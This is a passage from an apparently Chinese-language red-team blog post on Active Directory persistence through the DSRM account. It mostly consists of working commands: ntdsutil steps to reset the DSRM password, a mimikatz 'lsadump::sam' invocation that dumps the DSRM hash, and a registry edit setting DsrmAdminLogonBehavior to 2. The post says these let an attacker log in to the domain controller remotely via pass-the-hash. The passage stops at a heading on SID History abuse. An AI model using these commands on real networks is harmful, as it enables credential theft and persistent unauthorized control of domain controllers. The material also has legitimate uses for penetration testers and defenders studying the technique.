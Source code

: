 ntdsutil 是 Windows 操作系统中的一个命令行实用工具，而不是一个服务。它用于管理和维护 Active Directory 数据库。Active Directory 是一种目录服务.

```shell
#进入ntdsutil
ntdsutil
#进入DSRM账户密码设置模式
set dsrm password
#在当前域控制器上恢复DSRM密码
reset password on server null
#sync from domain account <username>与指定域用户的密码相同
#输入新密码
<password>
#再次输入新密码
<password>
#退出dsrm密码设置模式
q
#退出ntdsutil
q
```

![dsrm-pwd-reset](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/dsrm-pwd-reset.png)

+ 使用mimikatz获取dsrm账户的hash实现权限持久化(需要域管理员权限)

  执行以下命令

  ```
  mimikatz.exe "privilege::debug" " token::elevate" "lsadump::sam" exit
  ```

  读取本地SAM文件中dsrm账户的hash值

  ![mimikatz-dsrm-hash-dump](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/mimikatz-dsrm-hash-dump.png)

  修改DSRM账户的登陆模式，以允许该账户的远程登录。通过编辑注册表的DsrmAdminLogonBehavior键值来实现，DSRM账户可选用的登陆模式有以下三种

  ```
  0: 默认值，只有当域控制器重启并进入DSRM模式时，才可以使用DSRM管理员账户
  1：只有当本地AD,DS服务停止时，才可以使用DSRM管理员账户进行登录
  2：任何情况，都可以使用DSRM管理员账户登录域控制器
  ```

  执行以下命令，将DSRM的登陆模式改为2

  ```
  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior  /t REG-DWORD /d 2 /f
  ```

  ![dsrm-model2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/dsrm-model2.png)

  现在可以通过PTH，远程使用DSRM账户登录域控机器了

![dsrm-hash-login](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/dsrm-hash-login.png)

### SID History利用

